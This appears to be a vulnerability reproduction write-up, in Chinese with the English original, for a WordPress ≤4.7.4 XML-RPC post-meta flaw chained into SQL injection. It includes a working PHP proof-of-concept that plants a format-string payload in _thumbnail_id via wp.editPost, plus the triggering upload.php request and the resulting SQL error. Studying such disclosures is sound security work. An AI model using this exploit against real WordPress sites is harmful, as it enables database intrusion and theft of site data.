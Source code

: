 Wordpress \<= 4.7.4 XML-RPC API POST META 未校验漏洞
====================================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 中文版

以作者身份登录到您的wordpress

上传图片

记住图像/媒体的ID

创建帖子并将图像设置为特色图像（这将创建\_thumbnail\_id帖子元）

记住帖子ID

我们可以通过修改\_thumbnail\_id的值来编辑的值（6是帖子ID，5是图片/帖子ID）

### poc

    $usr = 'author';
    $pwd = 'author';
    $xmlrpc = 'http://local.target/xmlrpc.php';
    $client = new IXR_Client($xmlrpc);
    $content = array("ID" => 6, 'meta_input' => array("_thumbnail_id"=>"xxx"));
    $res = $client->query('wp.editPost',0, $usr, $pwd, 6/*post_id*/, $content);

通过这段代码，我们在数据库中添加以下负载

    5 %1$%s hello

执行SQL负载

使用作者帐户登录管理面板，转到媒体，例如

    http://0-sec.org/wp-admin/upload.php

通过\_wpnonce参数可以直接进行sql注入

    http://0-sec.org/wp-admin/upload.php?_wpnonce=daab7cfabf&action=delete&media%5B%5D=5%20%251%24%25s%20hello

其中5 %1\$%s
hello的encode编码是5%20%251%24%25s%20hello这个请求将导致数据库执行以下查询（会有错误）

    SELECT post_id FROM wp_postmeta WHERE meta_key = '_thumbnail_id' AND meta_value = '5 _thumbnail_id' hello'

这证明了Wordpress中的sql漏洞，正如5%1\$%s之后的前一个post值中提到的，hello就是我们的payload

### 英文原文

In order to understand the writing here, you need to read the previous
explanation <https://medium.com/websec/wordpress-sqli-bbb2afcc8e94>. If
you got it, then we can jump to the part and solve the question e.g. how
to update / insert our sql payload into \_thumbnail\_id post meta.

#### PoC start

-   Login to your wordpress as author

-   Upload image

-   Remember ID of the image / media

-   Create post and set image as featured image (this creates
    \_thumbnail\_id post meta)

-   Remember the post ID

#### Wordpress ≤ 4.7.4 XML-RPC

n case of appropriate wordpress version then we can use the third
vulnerability in this versions of wordpress
<https://wordpress.org/news/2017/05/wordpress-4-7-5/> e.g.

    Lack of capability checks for post meta data in the XML-RPC API.

This means that we can edit the value of \_thumbnail\_id with the
following code ( 6 is the post ID and 5 is image/post ID )

    $usr = 'author';
    $pwd = 'author';
    $xmlrpc = 'http://local.target/xmlrpc.php';
    $client = new IXR_Client($xmlrpc);
    $content = array("ID" => 6, 'meta_input' => array("_thumbnail_id"=>"5 %1$%s hello"));
    $res = $client->query('wp.editPost',0, $usr, $pwd, 6/*post_id*/, $content);

and with this code we add the following payload in the DB 5 %1\$%s hello

#### Wordpress importer plugin --- any version of wordpress

This is another approach for changing the \_thumbnail\_id value in the
database. If wordpress instance have enabled this plugin on it, then
simple export, change meta value and import will do the job.

#### Execute the SQL payload

Login to the administration panel with your author account, go to media
e.g. <http://local.target/wp-admin/upload.php> , grab the \_wpnonce
value and we are ready to prove our SQLi vulnerability. Issue the
following request towards your local instance:

    local.target/wp-admin/upload.php?_wpnonce=daab7cfabf&action=delete&media%5B%5D=5%20%251%24%25s%20hello

where 5%20%251%24%25s%20hello is url encoded 5 %1\$%s hello. This
request will result with execution of the following query against the DB
(will rise error of course):

    SELECT post_id FROM wp_postmeta WHERE meta_key = '_thumbnail_id' AND meta_value = '5 _thumbnail_id' hello'

This proves the SQLi vulnerability in the wordpress and as mention in
previous post value after 5 %1\$%s e.g. hello is our payload

#### Is this vulnerability dangerous?

SQL injection itself is quite dangerous vulnerability, but sometimes
have its own limitations. Here at our case depending of the database
server configuration or mysql client used on PHP side could be fatal,
but in our case best case scenario would be blind sql injection. Sure,
we all know the trivial attack vector, but here we have 2 facts that go
against wordpress:

meta value database column type e.g. size constraint

media parameter could be POST parameter e.g. will have huge size

This two facts guide us to the conclusion that even with blind sqli one
query would be enough to calculate some crucial DB cell value.
